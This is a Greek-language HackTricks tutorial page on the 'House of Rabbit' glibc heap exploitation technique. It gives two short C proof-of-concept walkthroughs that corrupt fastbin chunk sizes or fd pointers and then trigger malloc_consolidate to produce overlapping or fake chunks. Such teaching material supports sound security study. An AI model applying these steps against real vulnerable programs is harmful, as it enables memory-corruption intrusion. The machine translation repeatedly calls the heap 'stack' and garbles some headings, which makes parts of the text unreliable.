# Σπίτι του Κουνελιού

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Ερυθρού Συνεργείου AWS του HackTricks)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

### Απαιτήσεις

1. **Ικανότητα Τροποποίησης του Δείκτη fd ή Μεγέθους Fastbin**: Αυτό σημαίνει ότι μπορείτε να αλλάξετε τον μπροστινό δείκτη ενός κομματιού στο fastbin ή το μέγεθός του.
2. **Ικανότητα Ενεργοποίησης του `malloc_consolidate`**: Αυτό μπορεί να γίνει είτε με την εκχώρηση ενός μεγάλου κομματιού είτε με τη συγχώνευση του κορυφαίου κομματιού, το οποίο αναγκάζει τη στοίβα να συγχωνεύσει κομμάτια.

### Στόχοι

1. **Δημιουργία Επικαλυπτόμενων Κομματιών**: Να υπάρχει ένα κομμάτι που επικαλύπτεται με ένα άλλο, επιτρέποντας περαιτέρω χειρισμούς στη στοίβα.
2. **Δημιουργία Ψεύτικων Κομματιών**: Να εξαπατήσετε τον εκχωρητή ώστε να θεωρεί ένα ψεύτικο κομμάτι ως νόμιμο κομμάτι κατά τις λειτουργίες στη στοίβα.

## Βήματα της Επίθεσης

### POC 1: Τροποποίηση του Μεγέθους ενός Κομματιού Fastbin

**Στόχος**: Δημιουργία επικαλυπτόμενου κομματιού με την παραπλάνηση του μεγέθους ενός κομματιού fastbin.

* **Βήμα 1: Εκχώρηση Κομματιών**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Βήμα 2: Απελευθέρωση Χύματων**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
### Βήμα 3: Τροποποίηση Μεγέθους Χαντρών
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **Βήμα 4: Ενεργοποίηση της `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Η δέσμευση ενός μεγάλου κομματιού ενεργοποιεί τη λειτουργία `malloc_consolidate`, συγχωνεύοντας μικρά κομμάτια στο fastbin. Το χειρισμένο μέγεθος του `chunk1` προκαλεί επικάλυψη με το `chunk2`.

Μετά τη συγχώνευση, το `chunk1` επικαλύπτεται με το `chunk2`, επιτρέποντας περαιτέρω εκμετάλλευση.

### POC 2: Τροποποίηση του Δείκτη FD

**Στόχος**: Δημιουργία ψεύτικου κομματιού με τη χειρισμό του δείκτη fd του fastbin.

* **Βήμα 1: Δέσμευση Κομματιών**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Εξήγηση**: Δεσμεύουμε δύο τμήματα, ένα μικρό και ένα μεγαλύτερο, για να ρυθμίσουμε τη στοίβα για το ψεύτικο τμήμα.

* **Βήμα 2: Δημιουργία Ψεύτικου Τμήματος**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Βήμα 3: Απελευθέρωση του Χunκ1**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Εξήγηση**: Απελευθερώνουμε το `chunk1`, προσθέτοντάς το στη λίστα fastbin.

* **Βήμα 4: Τροποποίηση του FD του Chunk1**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Εξήγηση**: Αλλάζουμε τον προωθούμενο δείκτη (fd) του `chunk1` ώστε να δείχνει στο ψεύτικο κομμάτι μας μέσα στο `chunk2`.

* **Βήμα 5: Ενεργοποίηση της `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Η εκχώρηση ενός μεγάλου κομματιού ξανά ενεργοποιεί το `malloc_consolidate`, το οποίο επεξεργάζεται το ψεύτικο κομμάτι.

Το ψεύτικο κομμάτι γίνεται μέρος της λίστας fastbin, καθιστώντας το ένα νόμιμο κομμάτι για περαιτέρω εκμετάλλευση.

### Σύνοψη

Η τεχνική **House of Rabbit** περιλαμβάνει είτε την τροποποίηση του μεγέθους ενός fastbin κομματιού για τη δημιουργία επικαλυπτόμενων κομματιών είτε τη χειραγώγηση του δείκτη fd για τη δημιουργία ψεύτικων κομματιών. Αυτό επιτρέπει στους εισβολείς να δημιουργήσουν νόμιμα κομμάτια στη στοίβα, ενεργοποιώντας διάφορες μορφές εκμετάλλευσης. Η κατανόηση και η εξάσκηση αυτών των βημάτων θα βελτιώσει τις δεξιότητές σας στην εκμετάλλευση της στοίβας.
